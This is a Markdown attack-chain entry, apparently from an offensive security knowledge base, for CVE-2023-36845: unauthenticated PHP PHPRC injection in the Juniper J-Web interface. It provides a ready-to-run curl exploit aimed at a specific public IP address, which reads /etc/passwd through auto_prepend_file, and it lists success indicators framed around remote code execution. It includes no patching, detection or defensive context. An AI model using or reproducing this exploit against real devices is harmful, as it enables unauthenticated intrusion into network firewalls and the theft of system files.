

---
tags:
  - rce
  - php-injection
  - juniper
  - junos
  - j-web
  - cve-2023-36845
type: attack_chain
tools:
  - '[[tools/curl]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Network Device
  - Linux
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-PHP-PHPRC-Injection-via-J-Web]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Python]]'
updated_at: '2025-12-14T17:24:07.877Z'
description: >-
  Unauthenticated remote code execution via PHP environment variable
  manipulation in the J-Web interface of Juniper Junos OS devices.
skill_level: intermediate
impact_level: high
id: 970e5c46-fdb3-4034-b812-d56b9b234dfc
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Python]]'
---
# PHP External Variable Modification for RCE in Juniper J-Web Interface

Multi-stage attack chain demonstrating a complete attack workflow targeting the J-Web interface in Juniper Networks Junos OS on EX Series and SRX Series devices. The vulnerability allows unauthenticated attackers to modify PHP environment variables like PHPRC, enabling arbitrary file inclusion and remote code execution without creating files on the system.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Target OS/Platform: Juniper Junos OS on EX Series or SRX Series devices
- Required services/ports: J-Web interface (typically HTTPS on port 443)
- Network access requirements: Direct internet access to the target's J-Web endpoint

### Initial Access Requirements

- Credential requirements: None (unauthenticated)
- Network position: External attacker with reachability to the target IP
- Prior access needed: None

## Detailed Attack Procedures

### Step 1: Exploit PHP Variable Modification
procedure: [[procedures/Exploit-PHP-PHPRC-Injection-via-J-Web]]

**Objective**: Modify PHP environment variables to include and execute arbitrary files, achieving remote code execution on the Juniper device.

**Instructions**: Use [[commands/curl-php-phprc-injection]] to send a crafted POST request to the J-Web interface, setting PHPRC to /dev/fd/0 and auto_prepend_file to /etc/passwd for demonstration. This injects the file into PHP processing without authentication.

```bash
curl -sk "https://41.205.30.222/?PHPRC=/dev/fd/0" -X POST -d 'auto_prepend_file="/etc/passwd"'
```

**Expected Output**: Server response indicating successful inclusion of /etc/passwd, such as echoed content or error revealing file data, confirming RCE capability.

**Success Indicators**:
- Response contains content from /etc/passwd or similar arbitrary file
- No authentication prompt; request succeeds unauthenticated
- Evidence of PHP preprocessing the injected file

## Attack Chain Summary

### Key Achievements

1. Unauthenticated modification of PHP environment variables via J-Web
2. Arbitrary file inclusion leading to remote code execution
3. Compromise of system integrity on Juniper firewalls without file creation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Python]] PHP

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution

---
*Last updated: 2023-10-01T00:00:00Z*
